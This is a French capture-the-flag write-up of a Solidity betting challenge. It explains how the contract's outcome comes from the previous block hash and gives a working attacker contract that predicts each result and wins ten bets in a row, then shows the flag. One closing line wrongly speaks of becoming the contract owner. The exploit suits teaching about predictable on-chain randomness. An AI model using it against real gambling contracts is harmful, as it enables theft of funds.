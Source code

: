 Il s'affiche ensuite en dessous dans la partie `Deployed Contracts`.
Le but est de gagner 10 fois d'affilé son pari de combat.

### Analyse du code

Nous devons miser soit sur `0` soit sur `1`. Si nous gagnons 10 fois d'affilé, nous pouvons réupérer le flag.

Il faudrait soit avoir énormément de chance, soit faire preuve d'ingéniosité :D

Nous allons utiliser un smart contract pour appeler les fonctions de paris et nous permettre de gagner à tous les coups.

### Exploitation

En analysant comment le contrat calcule le gagnant, nous allons l'implémenter dans un autre contrat qui fera lui-même le calcule à notre place :

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IFightoo {
    function wins(bool _guess) external returns (bool);
}

contract FightooSolution {
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    // Renseigner l'adresse du contrat que vous avez déployé :
    IFightoo target = IFightoo(0x6aD388aDeE2cACf67D66F3f49D8384d767e2F056);

    function attack() public {
        uint256 blockValue = uint256(blockhash(block.number-1));
        uint256 FightResult = uint256(uint256(blockValue) / FACTOR);
        bool winner = FightResult == 1 ? true : false;

        target.wins(winner);
    }
}
```

A chaque fois que nous allons appeler notre fonction `attack()`, nous allons faire une mise gagnante. Appeler cette fonction 10 fois et l'on pourra voir que nous avons 10 victoires consécutives.

Nous pouvons aller demander le flag !

### Envoi de l'instance pour vérification

Nous avons atteint l'objectif, c'est à dire devenir owner du contrat, nous pouvons donc retourner sur la plateforme pour faire vérifier notre instance.
Il suffit de cliquer sur le bouton `VÉRIFIER L'INSTANCE` et de valider les deux transactions qui vont apparaître.
Si tout est bon, alors le flag s'affichera sur la page et dans la console.

**BRAVO !**

FLAG : **HN0x03{H4v3u1cH4Nc3_0uToFTw0?}**
